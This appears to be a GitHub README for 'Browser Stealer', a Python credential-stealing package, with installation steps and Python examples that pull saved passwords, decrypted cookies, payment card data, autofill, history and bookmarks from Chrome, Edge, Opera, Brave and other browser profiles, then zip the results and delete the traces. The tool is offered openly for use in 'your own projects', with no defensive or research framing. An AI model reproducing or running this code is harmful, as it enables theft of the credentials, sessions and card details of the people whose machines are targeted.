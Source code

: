 <!-- <h1 align="center">Browser Stealer<h1> -->

<p align="center">
  <img src="https:\\github.com\Josakko\browser_stealer\blob\main\img\banner.png?raw=true" alt="Browser Stealer">
</p>
  
<p align="center">
  <img src="https://img.shields.io/github/languages/top/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/last-commit/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/stars/Josakko/browser_stealer" </a>
  <img src="https://img.shields.io/github/forks/Josakko/browser_stealer" </a>
</p>

<h4 align="center">
  <span style="color: #fff; font-weight: bold;">Browser Stealer</span>
  <span style="color: #fff; font-weight: normal;">v1.0.0</span>
</h4>

```
pip install browser_stealer
```

## Installation

Since module got removed from pypi you have to install it manually, to install it download `.whl` file (`browser_stealer.whl`) from [here](https://github.com/Josakko/browser_stealer/releases), next open terminal on the location where you downloaded `browser_stealer.whl` and run following command:

```
pip install browser_stealer.whl
```

After running the command you can import and use browser stealer in your own projects!

## Code Examples

Simple example for stealing data from profile "Default" of browsers: Chromium, Chrome, Opera, Opera GX, Brave, Edge
```py
import browser_stealer

browser_stealer.run()
```

Or if you want to add your own chromium based browser or other profiles for existing ones:

```py
import browser_stealer


def MyBrowser():
    browser_stealer.fetch_passwords(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Login Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.decrypt_fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_cookies(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Network\Cookies")
    browser_stealer.fetch_history(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_downloads(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\History")
    browser_stealer.fetch_bookmarks(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Bookmarks")
    browser_stealer.fetch_payment(r"AppData\Local\%FOLDER%\%FOLDER%\User Data\%PROFILE%\Web Data", r"AppData\Local\%FOLDER%\%FOLDER%\User Data\Local State")
    browser_stealer.fetch_autofill(r"AppData\Local\%FOLDER%\%FOLDER%e\User Data\%PROFILE%\Web Data")
    
    browser_stealer.zip("MyBrowser.zip", ["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])
    browser_stealer.delete_files(["autofill.txt", "cards.txt", "bookmarks.txt", "downloads.txt", "history.txt", "passwords.txt", "decrypted-cookies.txt", "cookies.txt"])

MyBrowser()
```

In this example you have to replace `%FOLDER%\%FOLDER%` with one for your specific browser, so for example for chrome you would use `Google\Chrome`, and also replace `%PROFILE%` whit profile you want to target so for example you could replace it with `Default` if you want to target Default profile

## Need Help?

If you need help contact me on my [discord server](https:\\discord.gg\xgET5epJE6) or create [issue](https:\\github.com\Josakko\DiscordReverseShell\issues).

## Contributors

Big thanks to all of the amazing people (only me) who have helped by contributing to this project!
